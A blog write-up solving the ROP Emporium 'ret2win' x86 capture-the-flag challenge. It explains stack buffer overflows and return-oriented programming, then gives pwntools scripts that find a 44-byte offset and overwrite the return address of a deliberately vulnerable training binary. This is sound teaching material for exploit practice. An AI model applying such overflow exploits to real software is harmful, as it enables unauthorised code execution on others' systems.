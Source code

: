 ```yaml
---
layout: post
title:  "ROP Emporium ret2win Writeup (x86)"
date:   2024-05-31 13:15:45 -0400
categories: rop-emporium ret2win
tags: rop-emporium ret2win x86 writeup buffer-overflow rop reverse-engineering 32-bit
---
```

## Introduction
[ROP Emporium](https://ropemporium.com/index.html){:target="_blank"}{:rel="noopener noreferrer"}
provides a series of challenges to learn and practice
Return Oriented Programming (ROP). This is the
[first challenge](https://ropemporium.com/challenge/ret2win.html){:target="_blank"}{:rel="noopener noreferrer"}
of eight.

> This is what a hint will look like!
{: .prompt-tip }

### What is Return Oriented Programming?
#### Buffer Overflows
When a program needs to write data to memory,
it will need to reserve a space for that data to be stored
(a buffer).
As long as the data being written is less than or equal
to the buffer size, things are fine.

But what happens when the data being written is larger
than the buffer? Once the reserved space is filled, the program
will continue writing past the buffer. If it's located
on the stack, it will overwrite key values the program
needs to run as intended. 

One of these values sets the `instruction pointer`.
This tells the program the location of the next
instructions to execute. Whenever a function returns,
it will `pop` a value off of the stack and set that
to the instruction pointer.
By controlling this value, we essentially control 
the flow of the program.

![stack-bof](/images/ret2win/stack-bof.png)

How can we abuse this? First we write instructions into the
buffer. Then we force the instruction pointer (`EIP` in
the image) to point
to that buffer. This will make the next instructions
the program runs completely controlled by the attacker.
We've achieved arbitrary code execution!

But as attacks improve so do defenses. When compiled
with a non executable stack, the program no longer
executes code in locations that can be written to.
This fixes the described
[stack buffer overflow](https://en.wikipedia.org/wiki/Stack_buffer_overflow){:target="_blank"}{:rel="noopener noreferrer"}
vulnerability, but we
still have enough resources to achieve arbitrary
code execution...

#### Return Oriented Programming
Rather than injecting our own instructions, we can
reuse the instructions that are already there! The
catch is we can only use a block of instructions
that end in a `ret` instruction. This is where
the `Return` part of `Return Oriented Programming`
gets its name! 

What makes the `ret` instruction so special? If you
recall, the instruction pointer only gets updated 
when a function returns. If we want to run the 
following instructions

```nasm
pop rax
pop rbx
mov [rax], rbx
```

it may not exist in the binary in that form. However,
if we can find each individual instruction somewhere
in the binary followed by a `ret`, we can chain
these blocks together essentially achieving
the same result

```nasm
pop rbx
ret
...
mov [rax], rbx
ret
...
pop rax
ret
```

These blocks of instructions which end in a `ret` 
instruction are also known as `gadgets`.

So by reusing instructions found before a `ret` instruction
we can chain an arbitrary number of gadgets to complete
almost any task. There will be limitations based on
the stack size, the available gadgets, as well as
a hacker's ability to find a non trivial path, but that's
where the fun is!

## Tools
To make exploit development easier I'll be using
the following tools for all challenges

[Radare2](https://github.com/radareorg/radare2){:target="_blank"}{:rel="noopener noreferrer"}
is a powerful commandline tool which makes
binary analysis and reverse engineering easier. It'll
help us find useful gadgets and addresses.

[Pwndbg](https://github.com/pwndbg/pwndbg){:target="_blank"}{:rel="noopener noreferrer"}
is a plugin for GDB which helps exploit developing.
This will make it easier to see how our payload changes
the control flow of the vulnerable program.

[Pwntools](https://github.com/Gallopsled/pwntools){:target="_blank"}{:rel="noopener noreferrer"}
is a python library which will be used to
build and send our payload to the vulnerable program.

## Program Protections
Since this is a ROP challenge we know the stack won't
be executable. Just to be sure we can run
```bash
checksec ret2win32
```
![checksec](/images/ret2win/x86-checksec.png)

The `NX` flag is set meaning you can't execute code from
a writable part of memory. We're also dealing with
a 32 bit binary using little endian.

> This will be the same for every challenge
{: .prompt-info }

## Buffer Size
> Use the `cyclic` function and command in `pwntools`
> and `pwndbg`
{: .prompt-tip }
We need to know how big the buffer is before we start
overwriting the instruction pointer. We can use the
`cyclic()` function from pwntools to find the exact
offset. We just need to run the following
```python
#!/bin/python3
from pwn import *

# set terminal gdb will run in
# replace 'kitty' with your terminal
# context.terminal = ['kitty']

# create payload
payload = cyclic(60, n=4)

# debug rop chain
io = gdb.debug('./ret2win32', '''
               b pwnme
               c
               ''')
io.sendline(payload)

# keep the program alive
io.interactive()
```
The python code will stop when the pwnme function is
called. Continue the program with `continue` and
wait for the program to crash. To get the offset we
can run
```
cyclic -l 0x6161616c -n 4
```
![offset](/images/ret2win/x86-offset.png)

Our offset is 44 bytes. After this, we're able to control
where the program will return to.

> This will be the same for every x86 challenge
{: .prompt-info }


## Exploit Crafting
According to the
[challenge page](https://ropemporium.com/challenge/ret2win.html){:target="_blank"}{:rel="noopener noreferrer"}
our goal is to call the function `ret2win`
### Function Address
> You can use radare2 to list function addresses
{: .prompt-tip }

Using `radare2` we can analyze a binary by
running `aaa`. To list functions with their
addresses we can run `afl`
![ret2win-addr](/images/ret2win/x86-ret2win-addr.png)

So the address of `sym.ret2win` is `0x0804862c`

## Exploit
Now we have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# create payload
ret2win_addr = 0x0804862c
# fill buffer + rbp
payload = b'A'*44
# adds the proper 32 bit padding
# and uses little endian
payload += p32(ret2win_addr)

# send payload
io = process('./ret2win32')
io.sendline(payload)

# retrieve flag
io.recvuntil(b'flag:\n')
flag = io.recvline()
success(flag)
```
![flag](/images/ret2win/x86-flag.png)

## Conclusion
This challenge is fairly straightforward but being able
to control the `instruction pointer` is the
basis for all challenges going forward. Since the goal
of ROP Emporium is to teach ROP in isolation, all
`x86` challenges will use the same offset
of `44 bytes` and will have the same compiled protections.
For the sake of brevity, I won't go over finding the
protections and offset in every challenge.

[Next Challenge (split)]({% post_url 2024-06-01-rop-emporium-split-x86 %}){:target="_blank"}{:rel="noopener noreferrer"}

[ret2win x64]({% post_url 2024-05-31-rop-emporium-ret2win-x64%}){:target="_blank"}{:rel="noopener noreferrer"}
